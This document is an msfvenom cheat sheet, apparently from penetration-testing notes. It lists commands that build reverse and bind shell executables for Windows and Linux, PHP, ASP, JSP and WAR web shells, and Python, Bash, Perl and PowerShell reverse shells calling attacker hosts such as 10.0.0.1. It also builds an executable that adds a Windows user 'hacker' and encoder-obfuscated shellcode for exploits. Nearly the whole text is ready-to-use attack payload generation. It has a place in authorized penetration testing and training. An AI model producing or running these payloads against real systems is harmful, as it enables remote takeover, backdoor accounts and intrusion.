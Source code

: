 # Msfvenom

## List Payloads

You may list payloads with the following command:

```text
msfvenom --list payloads
```

## Staged and Stageless

Windows Staged reverse TCP

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```

Windows Stageless reverse TCP

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```

Linux Staged reverse TCP

```text
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```

Linux Stageless reverse TCP

```text
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```

### Windows Payloads <a id="windows-payloads"></a>

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe
msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
```

### Linux Payloads <a id="linux-payloads"></a>

```text
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
```

Add a user in windows with msfvenom:

```text
msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
```

## Web Payloads

PHP

```text
msfvenom -p php/meterpreter_reverse_tcp LHOST= LPORT= -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '' > shell.php && pbpaste >> shell.php
```

ASP

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp
```

JSP

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp
```

WAR

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war
```

## Scripting Payloads

Python

```text
msfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw > shell.py
```

Bash

```text
msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw > shell.sh
```

Perl

```text
msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw > shell.pl
```

PowerShell

```text
msfvenom -p windows/x64/powershell_reverse_tcp -o psh.ps1 -a x64 --platform windows LHOST=192.168.88.251 LPORT=8080
```

## Memory Corruption Payloads

Creating a msfvenom payload with an encoder while removing bad characters:

```text
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.20 LPORT=443 -b "\x00" -e x86/shikata_ga_nai -f c EXITFUNC=thread
msfvenom -a x64 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.20 LPORT=443 -b "\x00" -e x86/shikata_ga_nai -f c EXITFUNC=thread
```

## Library Payloads

You may list libraries with the following command:

```text
msfvenom --list payloads | grep -i library
```

### DLL Payloads

You can list the payloads that use DLLs with the following command:

```text
msfvenom --list payloads | grep -i DLL
```

